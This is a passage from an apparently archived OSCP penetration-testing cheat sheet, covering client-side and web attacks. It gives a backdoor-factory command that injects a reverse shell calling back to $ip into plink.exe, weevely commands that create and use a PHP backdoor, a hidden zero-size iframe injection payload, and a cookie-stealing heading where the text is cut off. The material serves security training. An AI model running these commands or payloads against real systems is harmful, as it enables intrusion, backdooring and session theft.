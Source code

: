     *   Linux Client Shells  
        [_http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/_](http://web.archive.org/web/20171113221652/http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    *   Setting up the Client Side Exploit

    *   Swapping Out the Shellcode

    *   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip -P 4444 -s reverse_shell_tcp

*   ## [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#web-attacks)Web Attacks

    *   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    *   Web Shells  
        [_http://tools.kali.org/maintaining-access/webshells_](http://web.archive.org/web/20171113221652/http://tools.kali.org/maintaining-access/webshells)  
        `ls -l /usr/share/webshells/`

    *   Generate a PHP backdoor (generate) protected with the given password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    *   Java Signed Applet Attack

    *   HTTP / HTTPS Webserver Enumeration

        *   OWASP Dirbuster

        *   nikto -h $ip

    *   Essential Iceweasel Add-ons  
        Cookies Manager [https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/](http://web.archive.org/web/20171113221652/https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/)  
        Tamper Data  
        [https://addons.mozilla.org/en-US/firefox/addon/tamper-data/](http://web.archive.org/web/20171113221652/https://addons.mozilla.org/en-US/firefox/addon/tamper-data/)

    *   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication bypass, redirecting the victim’s browser to a malicious HTML page, and more

    *   Browser Redirection and IFRAME Injection

        <div class="highlight highlight-text-html-basic">

        <pre><<span class="pl-ent">iframe</span> <span class="pl-e">SRC</span>=<span class="pl-s"><span class="pl-pds">"</span>http://$ip/report<span class="pl-pds">"</span></span> <span class="pl-e">height</span> = <span class="pl-s"><span class="pl-pds">"</span>0<span class="pl-pds">"</span></span> <span class="pl-e">width</span>=<span class="pl-s"><span class="pl-pds">"</span>0<span class="pl-pds">"</span></span>></<span class="pl-ent">iframe</span>></pre>

        </div>

    *   Stealing Cookies and Session Information

        <div class="highlight highlight-source-js">
